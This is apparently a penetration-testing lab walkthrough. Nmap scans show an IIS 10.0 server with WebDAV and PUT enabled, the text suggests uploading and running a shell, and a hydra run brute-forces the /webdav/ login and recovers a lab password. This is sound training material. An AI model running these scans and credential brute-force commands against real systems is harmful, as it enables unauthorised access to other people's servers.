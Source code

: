 ```bash
root@attackdefense:~# nmap 10.4.22.42 -sV -p80 -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-13 20:00 IST
Nmap scan report for 10.4.22.42
Host is up (0.0084s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Sat, 13 Jan 2024 14:30:29 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



root@attackdefense:~# nmap 10.4.22.42 -sV -p80 -sC --script=http-enum
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-13 20:02 IST
Nmap scan report for 10.4.22.42
Host is up (0.0088s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

`webdav`  directory is exist

From the output, it is clear that the WebDAV extension is enabled and the server is Microsoft-IIS/10.0. Also, you can see the `PUT` method is allowed, this means you can upload the file and with the `GET` method, you can execute it. This is interesting as you can upload and test whether the shell is working on not.

<br />

**Webdav credential bruteforce using hydra**

```bash
root@attackdefense:~# hydra -L users.txt -P password_list.txt 10.4.22.42 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-13 20:05:41
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-get://10.4.22.42:80/webdav/
[80][http-get] host: 10.4.22.42   login: bob   password: password_123321
1 of 1 target successfully completed, 1 valid password found
```
